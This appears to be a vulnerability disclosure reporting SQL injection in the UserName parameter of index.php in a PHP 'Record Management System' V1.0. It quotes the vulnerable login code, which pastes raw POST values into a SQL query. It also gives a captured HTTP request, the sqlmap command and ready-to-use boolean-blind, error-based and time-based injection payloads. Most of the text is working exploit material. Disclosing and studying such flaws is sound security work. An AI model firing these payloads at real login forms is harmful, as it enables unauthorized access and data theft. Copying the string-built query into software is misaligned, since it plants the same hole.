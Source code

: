 ### VUL_AUTHOR:netmanzhang

# Record Management System - SQL Injection on (index.php UserName parameter) 

## Vendor Homepage:
https://www.sourcecodester.com/php/5107/record-management-system.html 

Version:V1.0

## Tested on: PHP, Apache, MySQL

## Affected Page:
index.php 

On this page, UserName parameter is vulnerable to SQL Injection Attack 

## Source code(Personnel_record_management_system/index.php):
```
$UserName=$_POST['UserName'];
$Password=$_POST['Password'];
$login_query=mysqli_query($conn,"select * from user where UserName='$UserName' and Password='$Password' and User_Type='Admin'");
$count=mysqli_num_rows($login_query);
```
## Proof of vulnerability(Verify using the sqlmap tool):
### Request:
```
POST /Personnel_record_management_system/index.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 134
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=52388hjgjeif4bl4r5sqp2bmpm
Origin: http://localhost
Referer: http://localhost/Personnel_record_management_system/index.php
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

Login=&Password=admin&UserName=admin
```
### -> sqlmap -r 1.txt (above request package)--batch
### Output:
```
---
Parameter: UserName (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: Login=&Password=admin&UserName=admin' RLIKE (SELECT (CASE WHEN (3344=3344) THEN 0x61646d696e ELSE 0x28 END))-- yUhF

    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: Login=&Password=admin&UserName=admin' AND (SELECT 1811 FROM(SELECT COUNT(*),CONCAT(0x7176786271,(SELECT (ELT(1811=1811,1))),0x7170767671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- qOMN

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: Login=&Password=admin&UserName=admin' AND (SELECT 7314 FROM (SELECT(SLEEP(5)))RspW)-- zsho
---
```
